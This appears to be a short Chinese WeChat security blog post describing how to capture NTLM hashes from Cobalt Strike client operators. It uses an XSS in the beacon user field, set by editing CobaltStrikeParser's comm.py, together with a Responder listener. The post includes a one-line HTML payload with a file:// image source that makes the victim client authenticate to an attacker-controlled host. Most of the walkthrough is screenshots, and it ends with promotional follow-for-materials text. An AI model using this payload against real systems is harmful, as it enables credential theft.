 #  CobaltStrike XSS利用姿势，抓客户端hash

[ 渗透测试网络安全 ](javascript:void\(0\);)

**渗透测试网络安全** ![]()

微信号 STCSWLAQSEC

功能介绍 致力于分享成员技术研究成果、漏洞新闻、安全招聘以及其他安全相关内容

____

___发表于_

收录于合集

来自 Jas502n大佬的思路  

![](https://gitee.com/fuli009/images/raw/master/public/20220923181026.png)

  

使用此工具建立监听：https://github.com/lgandx/Responder

![](https://gitee.com/fuli009/images/raw/master/public/20220923181029.png)

  

https://github.com/Sentinel-One/CobaltStrikeParser/

修改 comm.py 第39行，为payload：<html>< img src='file://x.x.x.x/xx'%>

![](https://gitee.com/fuli009/images/raw/master/public/20220923181030.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220923181032.png)

伪造上线  

![](https://gitee.com/fuli009/images/raw/master/public/20220923181032.png)

CS上线，user 处为我们设置的 payload  

![](https://gitee.com/fuli009/images/raw/master/public/20220923181034.png)

  

Responder 脚本抓到客户机 hash

![](https://gitee.com/fuli009/images/raw/master/public/20220923181035.png)

微信公众号渗透测试网络安全后台回复“ **224420** ”获取

  

 **关 注 有 礼**

  
  
关注本公众号回复“718619”可以免费领取全套网络安全学习教程，安全靶场、面试指南、安全沙龙PPT、代码安全、火眼安全系统等

![](https://gitee.com/fuli009/images/raw/master/public/20220923181036.png)
还在等什么？赶紧点击下方名片关注学习吧！![](https://gitee.com/fuli009/images/raw/master/public/20220923181036.png)

分享收藏

3在看

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

